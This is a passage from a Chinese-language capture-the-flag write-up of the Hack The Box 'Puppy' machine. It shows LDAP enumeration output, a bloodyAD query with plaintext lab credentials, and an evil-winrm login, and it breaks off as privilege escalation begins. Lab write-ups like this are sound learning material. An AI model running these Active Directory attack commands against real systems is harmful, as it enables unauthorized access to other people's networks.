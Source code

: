 ```bash
userAccountControl: 66048

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

也可使用`bloodyAD`查看：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --host 10.10.11.70 get object adam.silver --attr userAccountControl

distinguishedName: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```



区别：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/7fac87a9dff74c769a26ad4e24d754ac.png)

## winrm

```bash
evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'passwd123!'
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/abd45dfa0b0441a98e64a8324382b2d7.png)

## 权限提升

翻到根目录下有一个备份目录：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a54c168fac8147cf80b635d2930ec76d.png)

